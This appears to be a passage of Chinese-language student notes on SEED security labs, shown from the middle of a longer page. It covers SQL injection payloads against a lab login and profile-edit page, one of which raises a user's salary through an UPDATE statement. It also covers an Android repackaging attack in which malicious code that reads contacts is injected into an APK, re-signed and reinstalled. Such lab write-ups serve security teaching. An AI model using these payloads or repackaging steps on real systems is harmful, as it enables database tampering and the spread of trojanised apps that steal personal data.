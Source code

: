     ![](https://i.imgur.com/0kkcUBx.png)
    ```cmd=
        URL: www.seedlabsqlinjection/unsafe_home.php             username=Alice%27%3b%23
        %27 = `
        %3b = ;
        %23 = #
    ```
3. URL編碼表
    ![](https://i.imgur.com/m7jxpzE.png)
4. URL快速編碼網站
http://www.convertstring.com/zh_TW/EncodeDecode/UrlEncode
### task3 SQL Injection Attack on UPDATE Statement
```cmd=
URL编码: 
 http://www.seedlabsqlinjection.com/unsafe_edit_backend.php?NickName=handsome
 %27%2csalary%3d9999999+where+Name%3d%27Alice%27%3b%23
SQL statement: 
 NickName= handsome ', 9999999 where Name='Alice';#
```

## Lab4 Android Repacking Attack Lab
講義: http://www.cis.syr.edu/~wedu/seed/Labs_16.04/Mobile/Android_Repackaging/
### task1 Obtain A n Android App (APK file) and Install It
```cmd=
adb connect 10.0.2.5
adb install RepackagingLab.apk
```
![](https://i.imgur.com/pipsO3j.png)
### task2 Disassemble Android App
```cmd=
apktool d RepackagingLab.apk
```
![](https://i.imgur.com/rwzQQIm.png)
### task3 Inject Malicious Code
```cmd=
把惡意程式加到app檔案裡面，同時更改app的權限，使app可以看到contact book。
把惡意檔案加入app的system中。
```
![](https://i.imgur.com/JdDFs4g.png)
![](https://i.imgur.com/PALYu4Z.png)
### task4 Repack Android App with Malicious Code
```cmd=
apktool b RepackagingLab [App編譯]
keytool -alias wubinray -genkey -v -keystore mykey.keystore [產生key pair]
jarsigner -keystore mykey.keystore RepackagingLab.apk wubinray [幫app做數位簽章]
```
![](https://i.imgur.com/cG4l39b.png)
![](https://i.imgur.com/eXvNNBe.png)
![](https://i.imgur.com/0d0GuJY.png)
### task5 Install the Repackaged App and Trigger the Malicious Code
```cmd=
adb uninstall RepackagingLab [移除舊的app]
adb connect 10.0.2.5 
adb install RepackagingLab.apk
```